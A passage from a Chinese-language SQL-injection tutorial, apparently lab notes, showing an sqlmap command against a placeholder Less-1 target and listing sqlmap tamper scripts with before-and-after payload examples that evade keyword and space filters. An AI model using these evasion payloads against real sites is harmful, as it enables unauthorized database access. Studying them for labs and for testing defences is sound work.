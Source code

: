 ## tamper脚本

有时候我们的注入会遇到关键字被ban的情况，sqlmap里存在自带的替代脚本，用法为：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

具体tamper的内容可以看到[sqlmap中tamper的用法](https://blog.csdn.net/weixin_49183673/article/details/123371793)：

```
1、apostrophemask.py
适用数据库：ALL
作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：tamper("1 AND '1'='1")
使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

2、base64encode.py
适用数据库：ALL
作用：替换base64编码
使用脚本前：tamper("1' AND SLEEP(5)#")
使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

3、multiplespaces.py
适用数据库：ALL
作用：围绕sql关键字添加多个空格
使用脚本前：tamper('1 UNION SELECT foobar')
使用脚本后：1 UNION SELECT foobar

4、space2plus.py
适用数据库：ALL
作用:用加号替换空格
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT+id+FROM+users

5、space2randomblank.py
适用数据库：ALL
作用：将空格替换为其他随机有效字符
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Did%0CFROM%0Ausers

6、unionalltounion.py
适用数据库：ALL
作用：将union all select 替换为union select
使用脚本前：tamper('-1 UNION ALL SELECT')
使用脚本后：-1 UNION SELECT

7、space2dash.py
适用数据库：ALL
作用：将空格替换为破折号（--），并添加一个随机字符和换行符（\n）
使用脚本前：tamper('1 AND 9227=9227')
适用脚本后：1--upgPydUzKpMX%0AAND--RcDKhIr%0A9227=9227

8、space2mssqlblank.py
适用数据库：mssql
测试数据库版本：Microsoft SQL Server 2000 、Microsoft SQL Server 2005
作用：将空格替换为有效字符集的随机空白字符('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
使用脚本前：tamper('SELECT id FROM users')
适用脚本后：SELECT%0Did%0DFROM%04users

9、between.py
测试数据库：Microsoft SQL Server 2005 、MySQL 4, 5.0 and 5.5、 Oracle 10g、 PostgreSQL 8.3, 8.4, 9.0
作用：将">"替换为"NOT BETWEEN 0 AND #"，将"="替换为"BETWEEN # AND #"
使用脚本前：tamper('1 AND A > B--')，tamper('1 AND A = B--')
```